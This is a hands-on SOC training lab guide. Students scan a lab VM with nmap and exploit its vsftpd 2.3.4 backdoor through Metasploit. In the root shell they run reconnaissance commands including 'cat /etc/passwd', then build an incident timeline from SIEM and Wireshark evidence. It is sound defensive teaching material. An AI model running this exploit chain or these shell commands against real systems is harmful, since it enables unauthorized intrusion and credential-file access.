







# Lab 4 — End-to-End SOC Investigation Simulation

## Lab Overview

**Purpose:** Chain a full attack — reconnaissance, exploitation, and shell access — into a single incident, then produce the artifact a real SOC actually delivers after a breach: a **correlated timeline** built from multiple, disagreeing evidence sources (some stages show up in your SIEM, some only show up in a packet capture, and some show up nowhere at all).

**Why this matters in real SOC work:** No single tool ever tells the whole story of an intrusion. A real incident responder pulls timestamps from a SIEM, a firewall, a packet capture, EDR telemetry, and sometimes a victim's own memory of "when did things start acting weird" — and has to reconcile all of it into one timeline that a CISO, legal team, or law enforcement can actually read. This lab is a small-scale rehearsal of exactly that process, using the exact same detection infrastructure you already built in Labs 1–3 rather than treating each tool as a separate island. You're also getting hands-on with the idea of **attack chain staging** — the same reconnaissance → initial access → execution progression used in frameworks like MITRE ATT&CK to describe real intrusions.

**What you'll learn:**
- How to correlate evidence across a SIEM (Elasticsearch/Kibana) and a packet capture (Wireshark) into one coherent story
- Why a *real* exploit (not a brute-force guess) behaves differently in your evidence sources than what you saw in Lab 1
- How to write an incident timeline that explicitly documents both *what was caught* and *what wasn't* — the second half is what separates a useful IR report from a shallow one

**Attack chain:** Nmap reconnaissance → Metasploit exploitation of a known vulnerable service → interactive post-exploitation shell.

**Tools used:**

| Tool | Role | Runs on |
|---|---|---|
| Nmap | Reconnaissance (reuses Lab 2's detection pipeline) | Kali |
| Metasploit | Exploitation of a real vulnerable service | Kali |
| Wireshark | Captures the exploitation and shell traffic (reuses Lab 3's technique) | Kali |
| Kibana | Correlates recon-phase evidence, builds the combined dashboard | ELK-SIEM |

## Architecture for This Lab



This lab deliberately reuses Lab 2's log pipeline (`portscan-logs-*`) and Lab 3's Wireshark technique rather than building anything new — the skill being tested here is **correlating existing tools**, not learning another one.

---

## Part 1 — Confirm Your Environment Is Still Live

Quick health check before starting, since this lab depends on infrastructure from three previous labs:

**On ELK-SIEM:**

```bash
curl http://192.168.56.102:9200
sudo systemctl status logstash --no-pager
```

**On Kali:**

```bash
ping -c 3 192.168.56.103
which nmap msfconsole wireshark
```

If anything's down, revisit the relevant earlier lab's troubleshooting section rather than starting fresh here.

---

## Part 2 — Reconnaissance Phase

### 2.1 Run a Full Service-Version Scan

This is a more thorough scan than Lab 2's technique-demonstration scans — a real attacker doing recon before exploitation wants to know *exactly* what's running, not just which ports are open:

```bash
nmap -sV -p- 192.168.56.103
```

`-sV` grabs service/version banners; `-p-` scans all 65535 ports (this will take several minutes — that's normal, let it run).



Look for:

```
21/tcp open  ftp     vsftpd 2.3.4
```

This exact version has a well-known, publicly documented backdoor — this is the vulnerability we'll target next.

### 2.2 Confirm the Recon Was Logged

This scan generates the same `iptables`/syslog/Logstash telemetry built in Lab 2. On ELK-SIEM:

```bash
curl "http://192.168.56.102:9200/portscan-logs-*/_search?pretty&q=src_ip:192.168.56.101" | head -50
```

Note the earliest `@timestamp` in the results — this is **Stage 1** of your incident timeline.

---

## Part 3 — Exploitation Phase

### 3.1 Start Wireshark Capture

Before touching Metasploit, start capturing — we want the exploit traffic itself, not just the shell that results from it:

```bash
sudo wireshark
```

Interface `eth0`, capture filter `host 192.168.56.103`, **Start**.

### 3.2 Launch Metasploit

```bash
msfconsole -q
```

### 3.3 Select and Configure the Exploit

```
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.103
show options
```

Review the options output to confirm `RHOSTS` is set correctly.



### 3.4 Run the Exploit

```
run
```

This particular backdoor doesn't need a separate listener/handler — a successful trigger opens a shell directly back to your `msfconsole` session on port 6200. You should land at a command prompt (no `msf6 >` prefix — you're now in a raw shell on the target).



**If the exploit reports failure or the connection resets:** this specific backdoor is timing-sensitive on some builds — see Troubleshooting below before trying again.

---

## Part 4 — Post-Exploitation Activity

While in the shell, generate a small amount of realistic post-exploitation activity — the kind of thing a real attacker does immediately after landing access, to establish what they've got:

```bash
whoami
id
uname -a
cat /etc/passwd
```

Note that this shell is **root** — this particular backdoor doesn't just get you a foothold, it hands over full control immediately, which is part of why this vulnerability is treated as critical severity in real environments.



Stop the Wireshark capture and save it: **File → Save As** → `lab4-exploitation-capture.pcapng`.

---

## Part 5 — Correlate the Evidence

This is the actual point of the lab — pulling timestamps from every source you have and lining them up.

### 5.1 Check the SIEM for Exploitation Evidence

On ELK-SIEM, check both indices for anything related to this exploit or shell:

```bash
curl "http://192.168.56.102:9200/ssh-auth-logs-*/_search?pretty&q=host.ip:192.168.56.103" | tail -30
curl "http://192.168.56.102:9200/portscan-logs-*/_search?pretty&q=dst_port:21" | tail -30
```

You'll likely find **nothing** related to the actual exploitation or shell — only the earlier recon scan (if it happened to touch port 21). This is expected, and it's an important finding in its own right: **the exploit and the resulting root shell are completely invisible to both log pipelines you've built so far.** Neither one was designed to catch FTP-layer exploitation or its aftermath.

### 5.2 Extract Timestamps from Wireshark

In your saved `lab4-exploitation-capture.pcapng`, filter to the exploitation traffic:

```
tcp.port == 21 or tcp.port == 6200
```

Note the timestamp of:
- The first port-21 (FTP) packet — **Stage 2: exploitation attempt begins**
- The first port-6200 packet — **Stage 3: backdoor shell opens**



---

## Part 6 — Build a Combined Kibana Dashboard (Optional but Recommended)

Since this lab pulls together Labs 1 and 2's infrastructure, it's a natural point to combine their visualizations into one view — a small taste of what a real SOC's "single pane of glass" dashboard looks like.

1. Hamburger menu → **Dashboard → Create dashboard**
2. **Add from library** → add both saved visualizations from Labs 1 and 2:
   - **SSH Failed Logins Over Time** (Lab 1)
   - **Unique Ports Touched Per Minute** (Lab 2)
3. Arrange them side by side
4. Set the time range to cover this entire lab session (e.g. **Last 4 hours**)
5. Title: **SOC Overview Dashboard**
6. **Save**



---

## Part 7 — Build the Incident Timeline

This is the lab's actual deliverable. Using everything gathered in Part 5, build a single timeline table with entries from **all** your sources, explicitly noting which evidence source caught each stage — including the stages that were **missed**:

| Stage | Event | Timestamp | Evidence Source | Caught by SIEM? |
|---|---|---|---|---|
| 1 | Reconnaissance (full port/version scan) | [from Part 2.2] | `portscan-logs-*` | ✅ Yes |
| 2 | Exploitation attempt (vsftpd backdoor trigger) | [from Part 5.2] | Wireshark only | ❌ No |
| 3 | Root shell established (port 6200) | [from Part 5.2] | Wireshark only | ❌ No |
| 4 | Post-exploitation commands executed | [from Part 4] | Wireshark only (plaintext, if captured mid-session) | ❌ No |

This table — explicitly built as part of the write-up template — is the core lesson: **your reconnaissance detection worked perfectly, and everything after it was completely blind.** That gap is exactly what Lab 7 explores in depth.

---

## Part 8 — Document the Finding

- [`Lab4-Investigation-Writeup-Template.docx`](./Lab4-Investigation-Writeup-Template.docx) — the clean, fillable Word document. No instructions inside it.
- [`WRITEUP-TEMPLATE.md`](./WRITEUP-TEMPLATE.md) — a guide explaining exactly where in this lab to find the information each field is asking for.

Both include the full timeline table structure from Part 7 — the `.docx` ready to fill in, the `.md` explaining where each timestamp comes from.

---

## Troubleshooting

- **`vsftpd_234_backdoor` exploit fails or the connection resets:** this backdoor is known to be timing-sensitive — the malicious code only triggers within a narrow window after a specially crafted username is sent. If `run` fails, simply try it again once or twice; this is normal behavior for this specific exploit, not a sign of misconfiguration.
- **No shell prompt appears after "backdoor service has been spawned":** give it 10–15 seconds, then press Enter — the shell is often silently ready but hasn't printed a prompt yet.
- **Nothing shows up in `portscan-logs-*` for this scan:** confirm Lab 2's infrastructure is still intact — see Part 1's health check, and revisit Lab 2's troubleshooting section if the iptables rule or Logstash pipeline didn't survive a shutdown/restart cycle.
- **Dashboard in Part 6 shows "no data":** double check the dashboard's time range (top-right) actually covers when you ran this lab's activity — Kibana dashboards don't automatically inherit a wide default range.
